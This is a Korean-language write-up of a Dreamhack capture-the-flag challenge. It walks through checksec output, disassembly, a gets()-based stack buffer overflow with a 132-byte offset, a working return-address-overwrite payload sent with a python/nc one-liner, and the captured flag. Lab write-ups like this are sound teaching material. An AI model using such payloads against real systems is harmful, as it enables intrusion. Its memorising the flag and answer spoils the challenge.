




# Challenge2 - basic_exploitation_001 Writeup

## 1. 보호 기법 확인

pwndbg의 `checksec` 명령어를 사용하여 바이너리의 보호 기법을 확인함.

* No RELRO
* No canary found
* NX enabled
* No PIE

카나리가 적용되어 있지 않아 버퍼 오버플로우를 통해 반환 주소(Return Address)를 덮어쓸 수 있다.



## 2. 코드 분석

`info functions` 명령어를 사용한 결과 `read_flag()` 함수의 주소를 확인함.

```text
0x080485b9  read_flag
0x080485cc  main
```

`disassemble read_flag` 결과:

```asm
Dump of assembler code for function read_flag:
   0x080485b9 <+0>:     push   ebp
   0x080485ba <+1>:     mov    ebp,esp
   0x080485bc <+3>:     push   0x8048679
   0x080485c1 <+8>:     call   0x8048410 <system@plt>
   0x080485c6 <+13>:    add    esp,0x4
   0x080485c9 <+16>:    nop
   0x080485ca <+17>:    leave
   0x080485cb <+18>:    ret
```

이후 다음 명령어를 사용하여 해당 주소에 저장된 문자열을 확인함.



따라서 `read_flag()` 함수가 실행되면 `system("cat flag")` 명령이 실행되어 플래그를 출력함을 알 수 있었음.


`disassemble main` 결과:

```asm
lea eax,[ebp-0x80]
call gets
```

버퍼의 크기는 0x80(128) 바이트이며, 입력을 받을 때 `gets()` 함수가 사용되고 있음을 확인함. `gets()` 함수는 입력 길이를 검사하지 않기 때문에 버퍼 크기보다 긴 입력이 들어오면 버퍼 오버플로우가 발생할 수 있음.




## 3. 취약점 분석

info frame 명령어를 통해 saved EBP가 0xffffd188, saved EIP(return address)가 0xffffd18c에 저장되어 있음을 확인함. 두 주소의 차이가 4바이트이므로 saved EBP 바로 뒤에 return address가 위치함을 알 수 있었음.



```text
buf[128]
saved EBP[4]
return address[4]
```

버퍼의 크기는 128바이트이며, 반환 주소 앞에는 saved EBP가 4바이트 존재함. 따라서 반환 주소까지의 거리는 다음과 같이 계산할 수 있었음.

```text
128 + 4 = 132 byte
```

즉 132바이트를 입력하면 반환 주소 위치까지 도달할 수 있음. 이후 반환 주소를 `read_flag()` 함수의 주소인 `0x080485b9`로 덮어쓰면 함수 종료 시 원래 위치로 복귀하지 않고 `read_flag()` 함수가 실행됨.

## 4. 익스플로잇

사용한 Payload는 다음과 같음.

```python
payload = b"A" * 132
payload += b"\xb9\x85\x04\x08"
```

먼저 `"A"` 132개를 사용하여 버퍼와 saved EBP를 채움. 이후 `read_flag()` 함수 주소인 `0x080485b9`를 리틀 엔디안 형식으로 입력하여 반환 주소를 덮어씀.

그 결과 함수가 종료될 때 `read_flag()` 함수가 실행되도록 만들 수 있었음.

원격 서버에는 다음 명령어를 사용하여 Payload를 전송함.

```bash
python3 -c 'import sys;sys.stdout.buffer.write(b"A"*132+b"\xb9\x85\x04\x08"+b"\n")' | nc -q 1 host8.dreamhack.games 10882
```

## 5. 실행 결과

Payload 전송 후 반환 주소가 `read_flag()` 함수로 변경되었고, `system("cat flag")` 명령이 실행되어 플래그를 획득할 수 있었음.

획득한 플래그는 다음과 같음.

```text
DH{01ec06f5e1466e44f86a79444a7cd116}
```

